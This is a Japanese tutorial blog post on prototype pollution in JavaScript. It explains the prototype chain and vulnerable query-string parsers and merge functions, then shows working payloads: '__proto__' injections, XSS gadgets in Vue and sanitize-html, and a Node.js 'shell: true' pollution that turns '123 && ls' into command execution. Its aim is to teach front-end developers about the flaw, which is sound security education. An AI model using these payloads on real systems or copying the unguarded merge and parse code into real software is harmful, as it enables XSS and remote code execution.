

# プロトタイプチェーンを悪用した攻撃：Prototype Pollution

毎日JavaScriptを扱っているフロントエンドエンジニアとして、仕事で直接使うことはなくても、プロトタイプチェーンという言葉を聞いたことがあるでしょう。

しかし、プロトタイプチェーンが攻撃手段の1つとして使用できることをご存知でしたか？

JavaScriptを直接実行することはできませんが、多くの実行フローに間接的に影響を与えることができます。既存のコードと組み合わせることで、強力な脆弱性を生み出すことが可能です。

このユニークで強力な脆弱性を一緒に見ていきましょう！

## プロトタイプチェーン

JavaScriptのオブジェクト指向は、他のプログラミング言語とは異なります。現在見られる `class` 構文はES6以降に導入されたものです。それ以前は、同じ目的で `prototype` が使用されており、プロトタイプ継承とも呼ばれていました。

例を挙げましょう。組み込み関数を使用する際に、それらがどこから来ているのか疑問に思ったことはありませんか？

```js
var str = "a";
var str2 = str.repeat(5); // repeat関数はどこから来ているのでしょうか？
```

さらに、2つの異なる文字列の `repeat` メソッドが実際には同じ関数であることに気づくかもしれません。

```js
var str = "a";
var str2 = "b";
console.log(str.repeat === str2.repeat); // true
```

または、MDNを調べたことがあるなら、タイトルが `repeat` ではなく `String.prototype.repeat` であることがわかるでしょう。



そして、これらすべてはプロトタイプに関連しています。

`str.repeat` を呼び出すとき、`str` インスタンス上に実際に `repeat` というメソッドがあるわけではありません。では、JavaScriptエンジンは舞台裏でどのように機能しているのでしょうか？

スコープの概念を覚えていますか？変数を使用し、ローカルスコープで見つからない場合、JavaScriptエンジンは次の外側のスコープを探し、グローバルスコープに到達するまで続けます。これはスコープチェーンと呼ばれます。JavaScriptエンジンはこのチェーンをたどって、一番上まで検索を続けます。

プロトタイプチェーンの概念は全く同じですが、違いは「JavaScriptエンジンは次にどこを探すべきかを知る方法」です。JavaScriptエンジンが `str` 上で `repeat` 関数を見つけられない場合、どこを探すべきでしょうか？

JavaScriptには、`__proto__` と呼ばれる隠しプロパティがあり、JavaScriptエンジンが次に探すべき場所の値を格納しています。

例：

```js
var str = "";
console.log(str.__proto__); // String.prototype
```

`str.__proto__` が指すものは、JavaScriptエンジンが `str` 上で何かを見つけられない場合に探すべき「次のレベル」であり、この次のレベルは `String.prototype` になります。

これが、MDNが `repeat` と書かずに `String.prototype.repeat` と書く理由です。これがrepeat関数の完全な名前であり、この `repeat` 関数は実際には `String.prototype` オブジェクト上のメソッドとして存在します。

したがって、`str.repeat` を呼び出すとき、実際には `String.prototype.repeat` を呼び出しており、これがプロトタイプチェーンの原理と動作です。

文字列以外のものにも同じことが当てはまります。例えばオブジェクト：

```js
var obj = {};
console.log(obj.a); // undefined
console.log(obj.toString); // ƒ toString() { [native code] }
```

`obj` が空のオブジェクトであるにもかかわらず、なぜ `obj.toString` が存在するのでしょうか？それは、JavaScriptエンジンが `obj` 上で見つけられない場合、`obj.__proto__` を探し、`obj.__proto__` は `Object.prototype` を指しているためです。したがって、`obj.toString` は最終的に `Object.prototype.toString` を見つけます。

```js
var obj = {};
console.log(obj.toString === Object.prototype.toString); // true
```

## デフォルトのプロトタイプのプロパティを変更する

文字列の `__proto__` は `String.prototype`、数値の `__proto__` は `Number.prototype`、配列の `__proto__` は `Array.prototype` です。これらの関連付けは、これらの種類のものが同じ関数を共有できるようにするために、すでに事前定義されています。

各文字列が独自の `repeat` 関数を持っていた場合、100万個の文字列に対して100万個の異なる `repeat` 関数が存在することになりますが、それらはすべて同じことを行います。それは合理的ではありませんよね？したがって、プロトタイプを使用することで、`repeat` を `String.prototype` に配置できるため、この関数を使用するすべての文字列は同じ関数を呼び出します。

同じ関数とパラメータで呼び出されたときに、関数が異なる文字列をどのように区別できるのか疑問に思うかもしれません。

答えは `this` です。例を見てみましょう。

```js
String.prototype.first = function () {
  return this[0];
};

console.log("".first()); // undefined
console.log("abc".first()); // a
```

まず、`String.prototype` に `first` というメソッドを追加しました。したがって、`"".first` を呼び出すと、JavaScriptエンジンは `__proto__` を介して `String.prototype` を検索し、`String.prototype.first` が存在することを見つけて、この関数を呼び出します。

また、`this` のルールにより、`"".first()` と記述した場合、`first` 内の `this` は `""` になります。`"abc".first()` が呼び出された場合、`first` 内の `this` は `"abc"` になります。したがって、`this` を使用して誰が呼び出しているかを区別できます。

上記の `String.prototype.first` の記述方法は、`String` のプロトタイプを直接変更し、すべての文字列が使用できる新しいメソッドを追加します。便利ではありますが、このアプローチは開発では推奨されません。「所有していないオブジェクトを変更しない」という言葉があります：[Don't modify objects you don't own](https://humanwhocodes.com/blog/2010/03/02/maintainable-javascript-dont-modify-objects-you-down-own/)。例えば、MooToolsは同様のことを行ったため、配列メソッドの名前を変更する必要がありました。詳細については、以前の記事を参照してください：[Don’t break the Web：SmooshGateとkeygenのケーススタディ](https://blog.huli.tw/2019/11/26/en/dont-break-web-smooshgate-and-keygen/)。

さらに、`String.prototype` を変更できるため、当然ながら `Object.prototype` も次のように変更できます。

```js
Object.prototype.a = 123;
var obj = {};
console.log(obj.a); // 123
```

`Object.prototype` が変更されたため、`obj.a` にアクセスすると、JavaScriptエンジンは `obj` 上にプロパティ `a` を見つけられないため、`obj.__proto__`、つまり `Object.prototype` を検索し、そこに `a` を見つけてその値を返します。

プログラムに脆弱性があり、攻撃者がプロトタイプチェーン上のプロパティを変更できる場合、それはプロトタイプ汚染と呼ばれます。汚染は汚染を意味します。上記の例では、`Object.prototype.a = 123` を使用してオブジェクトのプロトタイプ上の `a` プロパティを「汚染」しました。これにより、オブジェクトにアクセスする際に予期しない動作が発生する可能性があります。

では、この汚染の結果は何でしょうか？

## プロパティを汚染した後に何ができるか？

ウェブサイトに検索機能があり、クエリ文字列から `q` の値を取得し、次のように画面に表示するとします。


この機能のコードは次のとおりです。

```js
// クエリ文字列を取得します
var qs = new URLSearchParams(location.search.slice(1));

// 画面に表示し、XSSを避けるためにinnerTextを使用します
document.body.appendChild(
  createElement({
    tag: "h2",
    innerText: `Search result for ${qs.get("q")}`,
  })
);

function createElement(config) {
  const element = document.createElement(config.tag);
  if (config.innerHTML) {
    element.innerHTML = config.innerHTML;
  } else {
    element.innerText = config.innerText;
  }
  return element;
}
```

上記のコードは問題ないように見えますよね？いくつかの手順を簡略化し、提供された構成に基づいてコンポーネントを生成するために `createElement` 関数を作成しました。XSSを防ぐために、`innerHTML` の代わりに `innerText` を使用しました。したがって、XSSのリスクはないはずです！

正しいように見えますが、このコードを実行する前に、攻撃者がプロトタイプ上のプロパティを汚染できるプロトタイプ汚染の脆弱性があった場合はどうでしょうか？例えば、次のようなものです。

```js
// プロトタイプ汚染が可能であると仮定します
Object.prototype.innerHTML = "";

// 以下は以前と同じです
var qs = new URLSearchParams(location.search.slice(1));

document.body.appendChild(
  createElement({
    tag: "h2",
    innerText: `Search result for ${qs.get("q")}`,
  })
);

function createElement(config) {
  const element = document.createElement(config.tag);
  // プロトタイプ汚染されたinnerHTMLのため、if(config.innerHTML)はtrueになります
  if (config.innerHTML) {
    element.innerHTML = config.innerHTML;
  } else {
    element.innerText = config.innerText;
  }
  return element;
}
```

上記のコードの唯一の違いは、冒頭に `Object.prototype.innerHTML = ''` が追加されていることです。この行が `innerHTML` を汚染しただけで、`if (config.innerHTML) {` の条件がtrueと評価され、動作が変更されました。元々は `innerText` が使用されていましたが、`innerHTML` に変更され、最終的にXSS攻撃が達成されました！

これは、プロトタイプ汚染によって引き起こされるXSS攻撃です。一般的に、プロトタイプ汚染とは、攻撃者がプロトタイプチェーン上のプロパティを汚染できるプログラムの脆弱性を指します。ただし、汚染に加えて、完全な攻撃を実行するには、影響を与えることができる場所を見つける必要があります。

この時点で、攻撃者がプロトタイプチェーン上のプロパティを変更できる脆弱性を持つコードの種類について興味があるかもしれません。

## プロトタイプ汚染はどのように発生するのか？

この種の問題がよく発生するシナリオは2つあります。1つ目はクエリ文字列の解析です。

`?a=1&b=2` のようなクエリ文字列は単純だと思うかもしれません。しかし実際には、多くのクエリ文字列ライブラリは配列をサポートしており、`?a=1&a=2` や `?a[]=1&a[]=2` のように配列として解析できます。

配列以外にも、次のようにオブジェクトをサポートするライブラリもあります：`?a[b][c]=1`。これにより、`{a: {b: {c: 1}}}` というオブジェクトが生成されます。

例えば、[qs](https://github.com/ljharb/qs#parsing-objects)ライブラリはオブジェクトの解析をサポートしています。

この機能の実装を担当する場合、どのように記述しますか？オブジェクトのみを処理する基本的なバージョンから始めることができます（URLエンコーディングや配列は考慮しません）。

```js
function parseQs(qs) {
  let result = {};
  let arr = qs.split("&");
  for (let item of arr) {
    let [key, value] = item.split("=");
    if (!key.endsWith("]")) {
      // 通常のキーと値のペアの場合
      result[key] = value;
      continue;
    }

    // オブジェクトの場合
    let items = key.split("[");
    let obj = result;
    for (let i = 0; i < items.length; i++) {
      let objKey = items[i].replace(/]$/g, "");
      if (i === items.length - 1) {
        obj[objKey] = value;
      } else {
        if (typeof obj[objKey] !== "object") {
          obj[objKey] = {};
        }
        obj = obj[objKey];
      }
    }
  }
  return result;
}

var qs = parseQs("test=1&a[b][c]=2");
console.log(qs);
// { test: '1', a: { b: { c: '2' } } }
```

基本的に、`[]` 内のコンテンツに基づいてオブジェクトを構築し、レイヤーごとに値を割り当てます。単純に見えます。

しかし待ってください！クエリ文字列が次のようになっている場合、状況が変わります。

```js
var qs = parseQs("__proto__[a]=3");
console.log(qs); // {}

var obj = {};
console.log(obj.a); // 3
```

クエリ文字列がこのようになっている場合、`parseQs` は `obj.__proto__.a` の値を変更し、プロトタイプ汚染を引き起こします。その結果、後で空のオブジェクトを宣言して `obj.a` を出力すると、オブジェクトのプロトタイプが汚染されているため3が出力されます。

多くのクエリ文字列解析ライブラリが同様の問題に遭遇しています。以下にいくつかの例を示します。

1. [jquery-deparam](https://snyk.io/vuln/SNYK-JS-JQUERYDEPARAM-1255651)
2. [backbone-query-parameters](https://snyk.io/vuln/SNYK-JS-BACKBONEQUERYPARAMETERS-1290381)
3. [jquery-query-object](https://snyk.io/vuln/SNYK-JS-JQUERYQUERYOBJECT-1255650)

クエリ文字列の解析以外にも、この問題がよく発生するもう1つの一般的なシナリオはオブジェクトのマージです。単純なオブジェクトマージ関数は次のようになります。

```js
function merge(a, b) {
  for (let prop in b) {
    if (typeof a[prop] === "object") {
      merge(a[prop], b[prop]);
    } else {
      a[prop] = b[prop];
    }
  }
}

var config = {
  a: 1,
  b: {
    c: 2,
  },
};

var customConfig = {
  b: {
    d: 3,
  },
};

merge(config, customConfig);
console.log(config);
// { a: 1, b: { c: 2, d: 3 } }
```

上記の `customConfig` が制御可能な場合、問題が発生する可能性があります。

```js
var config = {
  a: 1,
  b: {
    c: 2,
  },
};

var customConfig = JSON.parse('{"__proto__": {"a": 1}}');
merge(config, customConfig);

var obj = {};
console.log(obj.a);
```

ここで `JSON.parse` を使用するのは、次のように直接記述すると：

```js
var customConfig = {
  __proto__: {
    a: 1,
  },
};
```

機能しないためです。`customConfig` は空のオブジェクトにしかなりません。キーが `__proto__` のオブジェクトを作成するには、`JSON.parse` を使用する必要があります。

```js
var obj1 = {
  __proto__: {
    a: 1,
  },
};
var obj2 = JSON.parse('{"__proto__": {"a": 1}}');
console.log(obj1); // {}
console.log(obj2); // { __proto__: { a: 1 } }
```

同様に、多くのマージ関連ライブラリにこの脆弱性がありました。以下にいくつかの例を示します。

1. [merge](https://snyk.io/vuln/SNYK-JS-MERGE-1040469)
2. [lodash.merge](https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173733)
3. [plain-object-merge](https://snyk.io/vuln/SNYK-JS-PLAINOBJECTMERGE-1085643)

これら以外にも、オブジェクトを操作するほとんどすべてのライブラリで同様の問題が発生しています。例えば：

1. [immer](https://snyk.io/vuln/SNYK-JS-IMMER-1019369)
2. [mootools](https://snyk.io/vuln/SNYK-JS-MOOTOOLS-1325536)
3. [ioredis](https://snyk.io/vuln/SNYK-JS-IOREDIS-1567196)

前回の記事の最後に提示したクイズも脆弱な領域です。

```js
onmessage = function (event) {
  const { x, y, color } = event.data;
  // 例えば、screen[10][5] = 'red'
  screen[y][x] = color;
};
```

攻撃者は `{y: '__proto__', x: 'test', color: '123'}` を渡すことができ、その結果 `screen.__proto__.test = '123'` となり、`Object.prototype.test` を汚染します。したがって、ユーザーから渡される値については、検証を実行することが非常に重要です。

プロトタイプ汚染の問題が発生する可能性がある場所がわかったところで、プロトタイプ上のプロパティを汚染するだけでは十分ではありません。影響を受ける可能性のある領域、つまりプロパティが汚染された後に動作が変化する場所を特定する必要があります。これにより、攻撃を実行できます。

## プロトタイプ汚染スクリプトガジェット

これらの「プロトタイプを汚染すれば悪用できるコードスニペット」はスクリプトガジェットと呼ばれます。これらのガジェットを収集することに特化したGitHubリポジトリがあります：[Client-Side Prototype Pollution](https://github.com/BlackFan/client-side-prototype-pollution)。これらのガジェットの中には想像もつかないものがあるかもしれません。デモンストレーションしましょう。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <script src="https://unpkg.com/vue@2.7.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="app">{{ message }}</div>
    <script>
      // テンプレートを汚染します
      Object.prototype.template = "<svg onload=alert(1)></svg>";
      var app = new Vue({
        el: "#app",
        data: {
          message: "Hello Vue!",
        },
      });
    </script>
  </body>
</html>
```

一見無害なVueのハローワールドコードですが、`Object.prototype.template` を汚染した後、任意のコードを注入できるXSS脆弱性になります。

またはこのように：

```html
<!DOCTYPE html>

<html lang="en">
  <head>
    <meta charset="utf-8" />
    <script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
  </head>
  <body>
    <script>
      Object.prototype.innerText = "<svg onload=alert(1)></svg>";
      document.write(sanitizeHtml("<div>hello</div>"));
    </script>
  </body>
</html>
```

これは入力をサニタイズするためのライブラリですが、`Object.prototype.innerText` を汚染した後、XSS攻撃に役立つツールになります。

なぜこれらの問題が発生するのでしょうか？`sanitize-html` の例を挙げると、このコードの一部があるためです。

```js
if (frame.innerText && !hasText && !options.textFilter) {
  result += frame.innerText;
}
```

`innerText` はデフォルトで安全な文字列であると想定されているため、直接連結されます。そして、このプロパティを汚染すると、プロパティが存在しない場合、プロトタイプからの値が使用され、XSSが発生します。

クライアント側の脆弱性に加えて、サーバー側にも同様のリスクがあります。例えば：

```js
const child_process = require("child_process");
const params = ["123"];
const result = child_process.spawnSync("echo", params);
console.log(result.stdout.toString()); // 123
```

これは、`echo` コマンドを実行し、パラメータを渡す単純なコードです。このパラメータは自動的に処理されるため、コマンドインジェクションについて心配する必要はありません。

```js
const child_process = require("child_process");
const params = ["123 && ls"];
const result = child_process.spawnSync("echo", params);
console.log(result.stdout.toString()); // 123 && ls
```

ただし、プロトタイプ汚染の脆弱性がある場合、RCE（リモートコード実行）に変換され、攻撃者が任意のコマンドを実行できるようになります（攻撃者がパラメータを制御できると仮定）。

```js
const child_process = require("child_process");
const params = ["123 && ls"];
Object.prototype.shell = true; // この行を追加するだけです
const result = child_process.spawnSync("echo", params, { timeout: 1000 });
console.log(result.stdout.toString());
/*
123
index.js
node_modules
package-lock.json
package.json
*/
```

これは、`child_process.spawn` の3番目のパラメータ `options` に `shell` というオプションがあり、trueに設定すると動作が異なるためです。公式[ドキュメント](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options)にも次のように記載されています。

> shellオプションが有効な場合、サニタイズされていないユーザー入力をこの関数に渡さないでください。シェルメタ文字を含む入力は、任意のコマンド実行をトリガーするために使用される可能性があります。

プロトタイプ汚染とスクリプトガジェット（`child_process.spawn`）を組み合わせることで、非常に重大な脆弱性が作成されます。

## 中間まとめ

前述のように、すべての攻撃手法がJavaScriptを直接実行するわけではありません。例えば、プロトタイプ汚染の脆弱性は、一見すると重要ではないように見えるかもしれません。単に `Object.prototype` にプロパティを追加するだけです。それが何だというのでしょうか？

しかし、他のコードと組み合わせると、既存の実行フローとセキュリティの仮定を破壊する可能性があり、一見無害なコードを脆弱なコードに変え、XSSやRCEなどの脆弱性につながる可能性があります。

プロトタイプ汚染の脆弱性の検出を自動化し、問題のある領域を特定することで、プロトタイプ汚染を別のレベルに引き上げた人もいます：[A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild](https://blog.s1r1us.ninja/research/PP)。研究成果に加えて、その背後にある研究チームにも注目する価値があります。彼らはフロントエンドセキュリティのオールスターチームと見なすことができます。

この脆弱性に初めて遭遇したとき、「全く新しい世界」という感覚を覚えました。フロントエンド開発で誰もがよく知っているプロトタイプの概念が、セキュリティ分野では一般的な攻撃手法になっているとは。なぜ以前これを知らなかったのだろうか？そして、プロトタイプ汚染だけでなく、他の多くの脆弱性も同じ感覚を与えてくれます。

これも、このシリーズの記事を書きたいと思った理由の1つです。より多くのフロントエンドおよびJavaScript開発者に、さまざまな攻撃手法を知ってもらいたいと考えています。

（この記事は、以前に公開した記事「[JSプロトタイプチェーンに基づく攻撃手法：Prototype Pollution](https://blog.huli.tw/2021/09/29/prototype-pollution/)」を書き直したものです。）
